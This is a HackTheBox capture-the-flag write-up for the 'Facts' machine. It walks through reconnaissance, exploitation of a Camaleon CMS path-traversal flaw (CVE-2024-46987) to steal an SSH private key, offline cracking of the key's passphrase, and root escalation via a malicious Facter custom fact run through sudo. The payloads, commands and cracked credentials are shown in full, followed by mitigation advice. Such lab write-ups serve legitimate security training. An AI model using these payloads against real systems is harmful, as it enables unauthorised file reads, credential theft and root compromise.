

# Facts - HackTheBox Writeup

**Date:** 2026-03-21
**OS:** Linux (Ubuntu 25.04)
**IP Address:** 10.129.7.200
**Difficulty:** Medium
**Points:** 30

---

# 1. Executive Summary

This writeup documents the exploitation process for the HackTheBox machine **Facts**. 

*   **Initial Access:** Exploited an LFI/RCE vulnerability (CVE-2024-46987) to read the private SSH key of the user `trivia`. The key was then cracked using `john` to gain entry via SSH.
*   **Privilege Escalation:** Discovered that the user `trivia` had sudo permissions for `/usr/bin/facter`. By creating a custom Ruby fact that executes a bash shell, root access was successfully achieved.
*   **Key Learning Points:** 
    * Improper input validation can lead to sensitive file disclosure.
    * Sudo permissions on administrative tools like `facter` can be leveraged for privilege escalation through custom plugin/fact loading.

---

# 2. Reconnaissance & Enumeration

## 2.1. Nmap Scan


```bash

Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-21 21:05 +0100
Nmap scan report for 10.129.7.200
Host is up (0.035s latency).

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open   http        nginx 1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
|_http-server-header: nginx/1.26.3 (Ubuntu)
8613/tcp  closed canon-bjnp3
9101/tcp  closed jetdirect
9451/tcp  closed unknown
29326/tcp closed unknown
31048/tcp closed unknown
32385/tcp closed unknown
54321/tcp open   http        Golang net/http server
|_http-server-header: MinIO
|_http-title: Did not follow redirect to http://10.129.7.200:9001
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 189EF3FB763605A9
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 21 Mar 2026 20:06:04 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>189EF3FB763605A9</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 189EF3F7B605CAD2
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 21 Mar 2026 20:05:48 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>189EF3F7B605CAD2</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Sat, 21 Mar 2026 20:05:49 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port54321-TCP:V=7.98%I=7%D=3/21%Time=69BEFA1C%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2B0,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nAc
SF:cept-Ranges:\x20bytes\r\nContent-Length:\x20276\r\nContent-Type:\x20app
SF:lication/xml\r\nServer:\x20MinIO\r\nStrict-Transport-Security:\x20max-a
SF:ge=31536000;\x20includeSubDomains\r\nVary:\x20Origin\r\nX-Amz-Id-2:\x20
SF:dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8\r\nX-A
SF:mz-Request-Id:\x20189EF3F7B605CAD2\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Sat,\x2021\x20Ma
SF:r\x202026\x2020:05:48\x20GMT\r\n\r\n<\?xml\x20version=\"1\.0\"\x20encod
SF:ing=\"UTF-8\"\?>\n<Error><Code>InvalidRequest</Code><Message>Invalid\x2
SF:0Request\x20\(invalid\x20argument\)</Message><Resource>/</Resource><Req
SF:uestId>189EF3F7B605CAD2</RequestId><HostId>dd9025bab4ad464b049177c95eb6
SF:ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>")%r(HTTPOptions,5
SF:9,"HTTP/1\.0\x20200\x20OK\r\nVary:\x20Origin\r\nDate:\x20Sat,\x2021\x20
SF:Mar\x202026\x2020:05:49\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSP
SF:Request,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,2CB,"HTTP/1\.0\x2
SF:0400\x20Bad\x20Request\r\nAccept-Ranges:\x20bytes\r\nContent-Length:\x2
SF:0303\r\nContent-Type:\x20application/xml\r\nServer:\x20MinIO\r\nStrict-
SF:Transport-Security:\x20max-age=31536000;\x20includeSubDomains\r\nVary:\
SF:x20Origin\r\nX-Amz-Id-2:\x20dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af
SF:9251148b658df7ac2e3e8\r\nX-Amz-Request-Id:\x20189EF3FB763605A9\r\nX-Con
SF:tent-Type-Options:\x20nosniff\r\nX-Xss-Protection:\x201;\x20mode=block\
SF:r\nDate:\x20Sat,\x2021\x20Mar\x202026\x2020:06:04\x20GMT\r\n\r\n<\?xml\
SF:x20version=\"1\.0\"\x20encoding=\"UTF-8\"\?>\n<Error><Code>InvalidReque
SF:st</Code><Message>Invalid\x20Request\x20\(invalid\x20argument\)</Messag
SF:e><Resource>/nice\x20ports,/Trinity\.txt\.bak</Resource><RequestId>189E
SF:F3FB763605A9</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3f
SF:d1af9251148b658df7ac2e3e8</HostId></Error>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.67 seconds


```


| Port | Service | Version | Notes |
| :--- | :--- | :--- | :--- |
| 22 | SSH | OpenSSH 9.9p1 | Ubuntu 3ubuntu3.2 |
| 80 | HTTP | nginx 1.26.3 | Redirects to facts.htb |
| 54321 | HTTP | MinIO | Golang net/http server |

**Nmap Command:**
```bash
nmap -sC -sV -oN nmap/initial 10.129.7.200
```

## 2.2. Web Enumeration
**Strategy:** Directory brute-forcing using Gobuster to identify hidden pages and endpoints.

### Directory Brute Forcing (Gobuster)
```bash
gobuster dir -u http://facts.htb -w /usr/share/wordlists/dirb/common.txt -o gobuster/initial.txt
```

| Path | Status | Size | Notes |
| :--- | :--- | :--- | :--- |
| `/admin` | 200 | 3896 | Camaleon CMS Admin Panel |
| `/welcome` | 200 | 11966 | Welcome landing page |
| `/search` | 200 | 19187 | Search functionality |
| `/post` | 200 | 11308 | Blog post portal |
| `/robots.txt` | 200 | 99 | Contains disallowed entries |
| `/ajax.js` | 422 | 8380 | Backend API logic |

**Key Findings:**
*   The system is running **Camaleon CMS** on the backend.
*   The `/admin` portal is accessible and leads to a login/registration page.
*   `/robots.txt` confirmed the presence of an administrative area.

### Visual Enumeration

*Figure 2.1: The registration page discovered at /admin.*


*Figure 2.2: Successful login following registration.*

# 3. Initial Access (User Flag)

## 3.1. Vulnerability Analysis
*   **Vulnerability:** File Disclosure / LFI (CVE-2024-46987)
*   **Vector:** Vulnerable web parameter in `facts.htb`.

## 3.2. Exploitation Path
The target application was found to be vulnerable to **CVE-2024-46987**. I used this vulnerability to read sensitive files from the server, including `/etc/passwd` and the private SSH key of the user `trivia`.

**Payload/Tool:**
```bash
# Reading /etc/passwd
[21:44:17] python3 CVE-2024-46987.py -u http://facts.htb -l Test -p test /etc/passwd

# Extracting the private SSH key
[21:52:58] python3 CVE-2024-46987.py -u http://facts.htb -l Test -p test /home/trivia/.ssh/id_ed25519 >> loot/id_ed25519
```

The extracted SSH key was encrypted. I used `ssh2john` to convert it to a format compatible with John the Ripper and then cracked it using the `rockyou.txt` wordlist.

```bash
# Cracking the SSH key passphrase
[21:55:38] ssh2john loot/id_ed25519 >> loot/found_hashes/ssh_hash.txt
[21:55:38] john --wordlist=/usr/share/wordlists/rockyou.txt loot/found_hashes/ssh_hash.txt

# Password found: dragonballz
```

I successfully logged in as `trivia` via SSH:
```bash
[22:08:49] ssh -i loot/id_ed25519 trivia@10.129.7.200
```

**User Flag:**
```bash
[22:09:01] cat /home/william/user.txt
685636acfe4cbfaacf54add2d7f43168
```

---

# 4. Privilege Escalation (Root Flag)

## 4.1. Local Enumeration
After gaining access, I checked the sudo permissions for the user `trivia`.

```bash
[22:10:01] sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

## 4.2. Exploitation Path
The user `trivia` can run `/usr/bin/facter` as root without a password. Facter allows loading custom Ruby facts from a specified directory. I created a custom fact that executes `/bin/bash -p`.

**Vulnerability:** Sudo configuration allowing execution of `facter` which can load arbitrary Ruby code via `--custom-dir`.

**Payload/Tool:**
```bash
# Creating the malicious Ruby fact
[22:14:47] echo 'Facter.add(:pwn) do                                                                                                                                                        
setcode do
exec("/bin/bash -p")
end
end' > /tmp/pwn.rb

# Executing facter with the custom fact directory
[22:16:31] sudo facter --custom-dir=/tmp pwn
```

**Root Flag:**
```bash
[22:16:40] cat /root/root.txt
c1e2c42c8f5184bfa41fd0a6c6e73a82
```

---

# 5. Credentials & Loot

| Username | Password / Hash | Source |
| :--- | :--- | :--- |
| trivia | dragonballz | Cracked SSH key (id_ed25519) |
| trivia | (SSH Key) | /home/trivia/.ssh/id_ed25519 |
| william | 685636acfe4cbfaacf54add2d7f43168 | /home/william/user.txt |
| root | c1e2c42c8f5184bfa41fd0a6c6e73a82 | /root/root.txt |

---

# 6. Recommendations & Mitigation
1. **Patch Sensitive File Disclosure (CVE-2024-46987):** Update the web application to a version that properly sanitizes user input and prevents arbitrary file reads. Implement strict access controls for sensitive files.
2. **Restrict Sudo Permissions:** Avoid granting `NOPASSWD` sudo access to tools that allow plugin or custom code loading (like `facter`). If such access is necessary, strictly control the directories from which custom code can be loaded.
3. **Strong SSH Passphrases:** Ensure that all SSH keys are protected by strong, complex passphrases that cannot be easily cracked using common wordlists.

---

# 7. Vulnerability Deep Dive

## 7.1. CVE-2024-46987: Camaleon CMS LFI
Camaleon CMS is a content management system built with Ruby on Rails. A vulnerability exists in the way it handles private media downloads, leading to Directory Traversal and Local File Inclusion (LFI).

*   **Mechanism:** The vulnerable endpoint `/admin/media/download_private_file` takes a `file` parameter. The application fails to sanitize this parameter properly, allowing an authenticated user to use `../` sequences to traverse the file system.
*   **Exploitation:** By authenticating as a low-privileged user (registration was open in this case), I was able to call this endpoint and read sensitive system files.
    *   **Payload Example:** `?file=../../../../../../../../../../etc/passwd`
*   **Impact:** This vulnerability allows for the disclosure of sensitive credentials, configuration files, and system information. In this machine, it was used to exfiltrate an SSH private key from the `trivia` user's home directory.
*   **Prevention:** The application should use a dedicated library for path sanitization or maintain a whitelist of allowed files. Furthermore, the resolved path should always be checked to ensure it remains within the intended `media` directory.

## 7.2. Puppet Facter Privilege Escalation
Facter is a cross-platform Ruby library commonly used with Puppet to retrieve system facts (OS, IP, memory, etc.).

*   **Mechanism:** Facter has a feature that allows users to define "custom facts" using Ruby scripts. The `--custom-dir` flag specifies where Facter should look for these scripts.
*   **Exploitation:** When a user is granted `sudo` access to `/usr/bin/facter` without a password, they can execute Facter as root. By creating a malicious Ruby script that executes a shell and pointing Facter to it via `--custom-dir`, the Ruby code runs in the context of the root user.
    *   **Payload Example:**
        ```ruby
        Facter.add(:exploit) do
          setcode do
            exec("/bin/bash -p")
          end
        end
        ```
*   **Impact:** This misconfiguration leads directly to local privilege escalation from any user with sudo permissions on Facter to root.
*   **Prevention:** Never grant sudo access to Facter (or similar tools like `ansible` or `puppet`) to non-root users if they can control the command-line arguments. If sudo is required, use a sudoers entry that restricts the available flags, specifically banning `--custom-dir` and `-d`.


